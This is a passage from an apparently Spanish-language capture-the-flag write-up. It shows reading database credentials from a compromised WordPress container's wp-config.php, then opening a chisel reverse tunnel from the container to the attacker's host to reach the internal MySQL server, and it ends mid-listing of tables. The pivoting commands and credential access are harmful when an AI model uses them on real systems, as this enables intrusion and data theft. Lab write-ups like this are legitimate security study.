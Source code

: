 La ip del contenedor podemos verlo desde el fichero wp-config.php:

```bash 
// ** Database settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** Database username */
define( 'DB_USER', 'wp_user' );

/** Database password */
define( 'DB_PASSWORD', 'wp_password' );

/** Database hostname */
define( 'DB_HOST', '172.17.0.1' );

/** Database charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8mb4' );

/** The database collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );
``` 

Iniciamos la conexión: 

```bash 
┌──(kali㉿kali)-[~/labs-hack/bigbang/www]
└─$ ./chisel server --reverse -p 8001
2025/05/14 21:18:06 server: Reverse tunnelling enabled
2025/05/14 21:18:06 server: Fingerprint BIH12OHqpbaWeIhFUi9a+wSU8yIIGdkhA66TzCi4mmE=
2025/05/14 21:18:06 server: Listening on http://0.0.0.0:8001
2025/05/14 21:18:10 server: session#1: tun: proxy#R:3306=>172.17.0.1:3306: Listening

# después en el contenedor: 

www-data@8e3a72b5e980:/var/tmp$ chmod +x chisel
chmod +x chisel
www-data@8e3a72b5e980:/var/tmp$ ./chisel client 10.10.14.103:8001 R:3306:172.17.0.1:3306
<sel client 10.10.14.103:8001 R:3306:172.17.0.1:3306
2025/05/15 01:18:13 client: Connecting to ws://10.10.14.103:8001
2025/05/15 01:18:14 client: Connected (Latency 104.234269ms)
```

Obtenemos el acceso: 
```bash
MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| performance_schema |
| wordpress          |
+--------------------+
3 rows in set (0.109 sec)

MySQL [(none)]> use wordpress; 
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed

MySQL [wordpress]> show tables; 
+-----------------------+
| Tables_in_wordpress   |
+-----------------------+
| wp_commentmeta        |
```
